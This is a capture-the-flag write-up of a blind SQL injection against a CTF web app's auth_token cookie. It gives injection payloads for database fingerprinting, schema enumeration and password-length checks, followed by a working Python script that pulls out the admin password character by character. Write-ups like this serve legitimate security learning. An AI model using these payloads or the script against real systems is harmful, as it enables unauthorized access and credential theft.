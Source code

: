 We'll use a conditional `OR 1= <if true then return 1 else return 2` for doing conditionals, and if the subquery is false the query will crash the server response.

We don't know what database this is being used, but we can guess that it's mysql or postgres from intuition since they're open source and more likely to show up on a CTF.

`' or 1=if(ASCII(LOWER(SUBSTR(version(),1,1)))=52, 1, 2)#` didn't work, but `' OR 1= (SELECT CASE WHEN (2=2) THEN 2 ELSE 1 END)#` works so this confirms it's postgres

I tried to get the auth token for the admin using `OR 1=1 LIMIT 1 OFFSET <offset>` but this didn't work.
You do get a different response this time at the 16th auth token, "You already have the flag".
I moved on from trying to get a valid token since this approach seemed like a rabbit hole.

Then, I did some enumeration to find info for extracting the admin user's password:

- We can get table names from `information_table.tables`. Here, we can make an educated guess that the table name is going to be `users` to speed things up. Here's the query to confirm it  `' OR 1= (SELECT CASE WHEN (SELECT SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0), 1, 5) = 'users') THEN 2 ELSE 1 END)#`
- We can get the column names with `information_schema.columns`. Again, you can make an educated guess that there will be a `password` column in the `users` table, but it's good to confirm it for sanity check, in case they used a different column name. Here's the query: `' OR 1=(SELECT CASE WHEN (SELECT SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0), 1, 8) = 'username') THEN 2 ELSE 1 END)#`. The password column is returned at offset 0.
- With this information, we can now extract the admin's password character by character. Luckily for us, the password is stored in plaintext which makes our job a lot easier. We can confirm this by extracting our own user's password with `' OR 1=(SELECT CASE WHEN (SELECT SUBSTR((SELECT password FROM users WHERE username='benkyou' LIMIT 1), 1, 1) = 'p') THEN 2 ELSE 1 END)#`
- We also need to know the password's length so that we know when to terminate. `' OR 1 = (SELECT CASE WHEN LENGTH((SELECT password FROM users WHERE username='admin' LIMIT 1)) = 12 THEN 2 ELSE 1 END) #`. The password length is 12.

Here's the solution script:

```python
import requests
import string

url = "https://fortune-crumbs.ctf.pearlctf.in/request"

charset = string.ascii_letters + string.digits + string.punctuation
password = ""
for i in range(12):
    for char in charset:
        headers = {
            "Cookie": f"auth_token=' OR 1=(SELECT CASE WHEN (SELECT SUBSTR((SELECT password FROM users WHERE username='admin' LIMIT 1), {i+1}, 1) = '{char}') THEN 2 ELSE 1 END)#"
        }
        print(headers)
        response = requests.get(url, headers=headers, allow_redirects=False)
        if response.status_code == 302:
            password += char
            print(f"password: {password}")
            break

print(f"final password: {password}")
```
